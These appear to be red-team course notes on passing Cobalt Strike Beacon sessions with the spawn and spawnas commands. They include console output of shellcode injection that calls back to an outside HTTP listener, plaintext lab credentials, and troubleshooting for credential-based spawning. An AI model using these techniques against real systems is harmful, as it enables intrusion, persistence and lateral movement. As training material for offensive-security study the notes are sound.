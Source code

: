 Session passing is a technique for spawning new Beacon sessions from existing ones.  For example, if you have a Beacon checking in over one listener (e.g. DNS), but you want to spawn an additional session using another listener (e.g. HTTP).  This is particularly useful  when you're using a low-and-slow channel for long-term persistence but you want to switch over to a faster channel to run your post-ex commands.

The most direct way to do this is with the `spawn` and `spawnas` commands.

## spawn

The `spawn` command starts a new process and injects shellcode into it for the specified listener.  The new Beacon will run as the same user who spawned it.

```powershell
beacon> help spawn
Use: spawn [x86|x64] [listener]
     spawn [listener]

Spawn an x86 or x64 process and inject shellcode for the listener.

beacon> spawn x64 http
[*] Tasked beacon to spawn (x64) windows/beacon_http/reverse_http (www.bleepincomputer.com:80)
[+] host called home, sent: 350863 bytes
```

![[Pasted image 20250706221044.png]]

## spawnas

The `spawnas` command is similar, but it accepts plaintext credentials for another user.  The new Beacon will run as the alternate user.

```powershell
beacon> help spawnas
Use: spawnas [DOMAIN\user] [password] [listener]

Attempt to spawn a payload as another user. If you don't specify DOMAIN,
Beacon will try to authenticate as a local user.

This command will usually fail if you're in a SYSTEM context. Use make_token
to create a token to pass the desired credentials instead.
```

> The help texts are always helpful because they call out any caveats for a command.  The help for spawnas indicates that it probably won't work when run from a Beacon running as SYSTEM.  These restrictions are usually due to the way the underlying Windows APIs behave.

One thing to watch out for when spawning new processes in general is Beacon's current working directory.  For example, this attempt to spawn a new Beacon with alternate credentials fails with the error code 267.

```powershell
beacon> spawnas CONTOSO\rsteel Passw0rd! tcp-local
[*] Tasked beacon to spawn windows/beacon_bind_tcp (127.0.0.1:1337) as CONTOSO\rsteel
[-] could not run C:\Windows\system32\rundll32.exe as CONTOSO\rsteel: 267

beacon> windows_error_code 267
ERROR_DIRECTORY, STATUS_NOTIFY_CLEANUP
```

This is caused because Beacon's current working directory is set to a directory owned by pchild's, which rsteel does not have access to.

```powershell
beacon> pwd
[*] Current directory is C:\Users\pchilds\Documents
```

The 'fix' for this is simply to change Beacon's working directory to a location rsteel is able to read.

```powershell
beacon> cd C:\
beacon> spawnas CONTOSO\rsteel Passw0rd! tcp-local
```

![[Pasted image 20250706221309.png]]


